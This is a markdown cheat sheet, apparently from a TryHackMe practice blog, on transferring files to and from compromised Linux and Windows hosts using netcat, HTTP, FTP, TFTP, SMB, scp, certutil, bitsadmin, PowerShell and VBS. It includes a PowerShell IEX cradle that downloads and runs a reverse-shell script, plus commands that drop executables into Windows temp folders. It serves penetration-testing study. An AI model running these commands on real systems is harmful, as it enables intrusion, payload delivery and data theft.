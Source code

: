 ```yaml
---
title: "File_Transfer"
date: 2022-11-05 17.04
categories: [Tryhackme, Linux]
tags: [thm ,ftp, suid, env]
author: LXD
image: 
---
```



***Python***
- **`python3 -m http.server 80`**
***
***Netcat***
- (on the receiver side) **`nc -l -p 1234 > [file_name]`**
- (on the sender side) **`nc -w 3 10.2.111.159 1234 < [file_name]`**

**On Windows run:**

-	 `nc.exe -nv 10.0.0.1 4444 < file.exe`
***
**Powershell**

**Transferring from Kali to Windows**
*Go to terminal open a listener with :*
- `python3 -m http.server 80`
*Download it from Windows(As x64 bits) :*
- `C:\\Windows\\SysNative\\WindowsPowershell\\v1.0\\powershell.exe IEX (New-Object Net.Webclient).downloadStrings('http://10.10.10.10/Invoke-PowershellTcp.ps1')`
***
OR
***CertUtil***

*certutil.exe is available on more modern versions of Windows.*

`certutil.exe -urlcache -split -f http://10.0.0.1:4444/file.exe C:\Windows\Temp\file.exe`

***

***FTP***

*We can use python to create a quick FTP server. Install the following package:*

`apt install python3-pyftpdlib`

**Transferring from Kali to Windows**

-	`python3 -m pyftpdlib -p 21`

**OR**

-	`python -m pyftpdlib -p 21`
***
***SSH***
*We can upload and downloand file through ssh via scp:*

**Downloading:**
- `scp sarah@10.10.54.199:'/Path/To/The/File' wordlist.txt`

**Uploading:**
- `scp /home/fl3sh/hash.txt john@192.168.10.5:/home/john/scripts`

*On Windows, create a text file with the commands you wish to use:*
```
echo open 192.168.1.78 > ftp.txt
echo binary >> ftp.txt
echo get test.txt >> ftp.txt
echo bye >> ftp.txt
```
*You can then execute the commands in the file with the following command:*

-	`ftp -A -s:ftp.txt`

***
***TFTP***

*TFTP is installed by default on Windows XP. It may not be installed on other versions of Windows. Sometimes it can be enabled on the command line:**

`pkgmgr /iu:"TFTP"`

On Kali install a TFTP server:

`apt install atftpd`

Create a dedicated tftp directory and change the ownership:
```
mkdir /tftp
chown nobody:nogroup /tftp
```

Run the TFTP server:

`atftpd --daemon --no-fork /tftp/`

**Transferring from Kali to Windows**

`tftp -i 10.0.0.1 GET file.exe`

**Transferring from Windows to Kali**

`tftp -i 10.0.0.1 PUT file.exe`
***
***SMB***

**Run the server on Kali:**

`python /usr/share/doc/python-impacket/examples/smbserver.py kali /path/to/directory`

*On Windows, check that the share can be seen:**

`net view \\10.0.0.1`
Shared resources at \\10.0.0.1

(null)

Share name  Type  Used as  Comment

-----------------------------------
KALI        Disk
The command completed successfully.

Regular filesystem commands should all work, and files can be copied to and from the share:

1 -	`dir \\10.0.0.1\kali`
2 - `copy \\10.0.0.1\kali\file.exe C:\Windows\Temp\file.exe`
3 - `copy C:\Windows\Temp\file.exe \\10.0.0.1\kali\file.exe`
***
***HTTP***

`python3 -m http.server 4444`

OR

`python -m SimpleHTTPServer 4444`
***

***BITSAdmin***
`
bitsadmin /transfer myDownloadJob /download /priority normal http://10.0.0.1:4444/file.exe C:\Windows\Temp\file.exe`
***
**PowerShell Script**
`
powershell.exe -c "(new-object System.Net.WebClient).DownloadFile('http://10.0.0.1:4444/file.exe','C:\Windows\Temp\file.exe')"`
***
**Can also be dumped into a script:**
```
echo $webclient = New-Object System.Net.WebClient > wget.ps1
echo $url = "http://10.0.0.1:4444/file.exe" >> wget.ps1
echo $output = "C:\Windows\Temp\file.exe" >> wget.ps1
echo $webclient.DownloadFile($url,$output) >> wget.ps1
```
**Run with:**
-	`powershell wget.ps1`
***
***VBS Script***
```
strFileURL = "http://10.0.0.1:4444/file.exe"
strHDLocation = "C:\Windows\Temp\file.exe"
Set objXMLHTTP = CreateObject("MSXML2.XMLHTTP")
objXMLHTTP.open "GET", strFileURL, false
objXMLHTTP.send()
If objXMLHTTP.Status = 200 Then
Set objADOStream = CreateObject("ADODB.Stream")
objADOStream.Open
objADOStream.Type = 1 'adTypeBinary
objADOStream.Write objXMLHTTP.ResponseBody
objADOStream.Position = 0
Set objFSO = CreateObject("Scripting.FileSystemObject")
If objFSO.Fileexists(strHDLocation) Then objFSO.DeleteFile strHDLocation
Set objFSO = Nothing
objADOStream.SaveToFile strHDLocation
objADOStream.Close
Set objADOStream = Nothing
End if
Set objXMLHTTP = Nothing
```
**As a series of echo statements:**
```
echo strFileURL = "http://10.0.0.1:4444/file.exe" >> downloadfile.vbs
echo strHDLocation = "C:\Windows\Temp\file.exe" >> downloadfile.vbs
echo Set objXMLHTTP = CreateObject("MSXML2.XMLHTTP") >> downloadfile.vbs
echo objXMLHTTP.open "GET", strFileURL, false >> downloadfile.vbs
echo objXMLHTTP.send() >> downloadfile.vbs
echo If objXMLHTTP.Status = 200 Then >> downloadfile.vbs
echo Set objADOStream = CreateObject("ADODB.Stream") >> downloadfile.vbs
echo objADOStream.Open >> downloadfile.vbs
echo objADOStream.Type = 1 'adTypeBinary >> downloadfile.vbs
echo objADOStream.Write objXMLHTTP.ResponseBody >> downloadfile.vbs
echo objADOStream.Position = 0 >> downloadfile.vbs
echo Set objFSO = CreateObject("Scripting.FileSystemObject") >> downloadfile.vbs
echo If objFSO.Fileexists(strHDLocation) Then objFSO.DeleteFile strHDLocation >> downloadfile.vbs
echo Set objFSO = Nothing >> downloadfile.vbs
echo objADOStream.SaveToFile strHDLocation >> downloadfile.vbs
echo objADOStream.Close >> downloadfile.vbs
echo Set objADOStream = Nothing >> downloadfile.vbs
echo End if >> downloadfile.vbs
echo Set objXMLHTTP = Nothing >> downloadfile.vbs
echo ""
```
**Run with the following command:**
-	`cscript downloadfile.vbs`
